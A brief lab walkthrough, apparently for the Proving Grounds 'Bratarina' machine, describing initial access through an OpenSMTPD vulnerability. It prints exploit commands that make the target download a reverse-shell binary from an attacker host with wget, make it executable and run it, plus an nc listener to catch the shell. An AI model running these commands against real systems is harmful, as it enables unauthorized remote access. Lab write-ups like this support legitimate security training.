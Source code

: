 # 🏴 Bratarina (Linux)

## 🧠 Initial Foothold

- Found port 25 open running **OpenSMTPD**.

- Searched for vulnerabilities using Searchsploit and identified:
  - **Exploit:** `47984.py`

- Used the following commands to exploit the target:
  ```bash
  python3 47984.py 192.168.102.71 25 "wget 192.168.45.229/revshell.elf -O /tmp/revshell.elf"
  python3 47984.py 192.168.102.71 25 "chmod +x /tmp/revshell.elf"
  python3 47984.py 192.168.102.71 25 "/tmp/revshell.elf"
  ```

- ⚠️ Reverse shell must connect back on **port 80** (other ports may fail).

- Listener:
  ```bash
  nc -nlvp 80
  ```

- Successfully received a shell.

---

📚 **Reference:**  
[Bratarina Writeup by thevillagehacker](https://github.com/thevillagehacker/Proving_Grounds/blob/main/Writeups/2023-10-05-Proving_grounds_Practice-Bratarina.md)

---

🧼 **Post-Exploitation Note:**  
Verify OpenSMTPD version and patch, remove `/tmp` payloads after use.

> ⚠️ This walkthrough is for educational purposes only.
